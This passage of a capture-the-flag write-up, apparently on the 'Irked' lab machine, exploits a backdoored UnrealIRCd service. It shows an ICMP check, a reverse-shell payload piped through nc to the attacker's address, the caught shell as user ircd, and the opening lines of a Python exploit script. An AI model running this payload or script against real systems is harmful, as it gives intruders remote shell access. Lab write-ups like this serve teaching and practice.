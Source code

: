 In my other window:

```

root@kali# tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
07:53:38.650512 IP 10.10.10.117 > 10.10.14.14: ICMP echo request, id 3472, seq 1, length 64
07:53:38.650548 IP 10.10.14.14 > 10.10.10.117: ICMP echo reply, id 3472, seq 1, length 64

```

### Shell

Now I can use this to get a shell:

```

AB; rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.14 443 >/tmp/f

```

```

root@kali# nc -lnvp 443
Ncat: Version 7.70 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 10.10.10.117.
Ncat: Connection from 10.10.10.117:40718.
bash: cannot set terminal process group (634): Inappropriate ioctl for device
bash: no job control in this shell
ircd@irked:~/Unreal3.2$ id
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)

```

### Script It

This was a simple enough exploit, and I wanted a python implementation, so I wrote one. I had particular fun using `subprocess` to start my `nc` listener and catch the shell callback. This script will be on my gitlab page, [ctfscripts](https://gitlab.com/0xdf/ctfscripts) as well (though not under Irked, as it’s not specific to this machine, but any running this backdoored version of Unreal).

```

  1 #!/usr/bin/env python3
  2 
  3 import socket
  4 import subprocess
  5 import sys
  6 
  7 if len(sys.argv) != 5:
  8     print(f"Usage: {sys.argv[0]} [target_ip] [target_port] [callback ip] [callback port]")
  9     sys.exit()
 10 
 11 rhost, rport, lhost, lport = sys.argv[1:]
 12 
 13 print(f"[*] Connecting to {rhost}:{rport}")
 14 s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
 15 try:
 16     s.connect((rhost, int(rport)))
 17 except:
 18     print(f"[-] Failed to connect to {rhost}:{rport}")
 19     sys.exit(1)
 20 s.recv(100)
```